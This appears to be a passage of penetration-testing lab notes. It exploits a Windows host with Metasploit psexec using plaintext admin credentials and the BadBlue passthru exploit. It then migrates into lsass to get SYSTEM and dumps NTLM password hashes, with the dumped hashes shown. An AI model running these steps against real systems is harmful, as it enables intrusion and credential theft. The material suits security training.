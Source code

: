 ```bash
use exploit/windows/smb/psexec
set RHOSTS 10.0.0.242
set SMBUser Administrator
set SMBPass qwertyuiop
exploit
```

```bash
shell
cd /
dir
type flag.txt
```

2. Exploit with badblue

```bash
use exploit/windows/http/badblue_passthru
set TARGET BadBlue\ EE\ 2.7\ Universal
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

### Privilege Escalation <a href="#privilege-escalation-2" id="privilege-escalation-2"></a>

```bash
pgrep lsass
migrate 780
getuid
	Server username: NT AUTHORITY\SYSTEM
```

### [Pass-the-hash - PSExec](https://www.offsec.com/metasploit-unleashed/psexec-pass-hash/) <a href="#pass-the-hash-psexec" id="pass-the-hash-psexec"></a>

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503':aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```
